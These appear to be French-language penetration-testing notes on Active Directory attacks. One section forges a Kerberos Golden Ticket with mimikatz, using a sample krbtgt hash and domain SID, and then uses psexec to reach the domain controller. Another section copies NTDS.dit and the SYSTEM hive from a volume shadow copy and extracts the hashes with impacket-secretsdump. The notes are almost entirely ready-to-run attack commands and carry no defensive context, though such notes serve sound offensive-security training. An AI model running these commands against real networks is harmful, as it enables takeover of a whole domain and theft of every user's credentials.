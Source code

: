 # Golden Ticket
Requière:
* Hash du krbtgt
* compte domain admin ou avoir compromis le controlleur de domaine

Sur le controlleur de domaine avec mimikatz
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ powershell
privilege::debug
lsadump::lsa /patch
#extraire le hash du krbtgt et SID du domaine
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Sur une autre machine (pas besoin d'être sur le domaine) avec mimikatz
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ powershell
#supprime tous les billets en mémoire
kerberos::purge
#fournir un compte quelquonque
kerberos::golden /user:jen /domain:corp.com /sid:S-1-5-21-1987370270-658905905-1781884369 /krbtgt:1693c6cefafffc7af11ef34d1c788f47 /ptt
misc::cmd
#ensuite on peut rouler psexec pour se connecter au controlleur de domaine
#utiliser nom d'hôte au lieu de l'IP sinon cela force authentification
psexec.exe \\dc1 cmd.exe
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


# Shadow Copies
Volume Shadow Service (VSS) est une technologie de sauvegarde pour volumes entiers
vshadow.exe officiellement dans Windows SDK
copier la bd de AD NTDS.dit. Contient les creds des usagers
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ powershell
vshadow.exe -nw -p C:
#retenir cette ligne: - Shadow copy device name:
#extraire la bd
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\windows\ntds\ntds.dit c:\ntds.dit.bak
#sauvegarder le SYSTEM hive du registre
reg.exe save hklm\system c:\system.bak
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Linux
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ shell
#extraire les hashes
impacket-secretsdump -ntds ntds.dit.bak -system system.bak LOCAL
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
